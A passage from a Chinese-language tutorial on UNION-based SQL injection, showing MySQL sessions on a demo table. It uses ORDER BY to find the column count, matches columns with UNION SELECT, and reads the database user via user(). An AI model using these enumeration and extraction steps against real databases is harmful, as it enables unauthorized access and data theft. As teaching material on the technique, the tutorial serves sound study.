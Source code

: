 ```
2 rows in set (0.00 sec)                                
                                                        
mysql> select * from vorname where Alt=22 order by 3;   
+---------+-----------+-----+                           
| Vorname | Nachname  | Alt |                           
+---------+-----------+-----+                           
| Lina    | Schneider |  22 |                           
| Tobias  | Ai        |  22 |                           
+---------+-----------+-----+                           
2 rows in set (0.00 sec)                                
                                                        
mysql> select * from vorname where Alt=22 order by 4;   
ERROR 1054 (42S22): Unknown column '4' in 'order clause'
```

**order by**原理是排序，**order by 1**就是以第一列排序，Lina在Tobias之前，**order by 2**是以第二列排序，Ai在Schneider之前，**order by 4**就出错辣，因为没有第四列。因此在注入的第一步可以用来判断表的列数，这个也为大多数sql注入的后一步做铺垫，因为UNION语句需要前后两个的列数相同。



## UNION

前面说UNION语句需要前后两个的列数相同，效果如下，只有union前后为相同的列数，才不会出错

```
mysql> select * from vorname where Alt=22 union select 1;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
mysql> select * from vorname where Alt=22 union select 1,2;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
mysql> select * from vorname where Alt=22 union select 1,2,3;
+---------+-----------+-----+
| Vorname | Nachname  | Alt |
+---------+-----------+-----+
| Lina    | Schneider |  22 |
| Tobias  | Ai        |  22 |
| 1       | 2         |   3 |
+---------+-----------+-----+
3 rows in set (0.00 sec)
```

在union后一段中的第三列获取该数据库的用户名

```
mysql> select * from vorname where Alt=22 union select 1,2,user();
+---------+-----------+----------------+
| Vorname | Nachname  | Alt            |
+---------+-----------+----------------+
| Lina    | Schneider | 22             |
| Tobias  | Ai        | 22             |
| 1       | 2         | root@localhost |
+---------+-----------+----------------+
3 rows in set (0.00 sec)
```

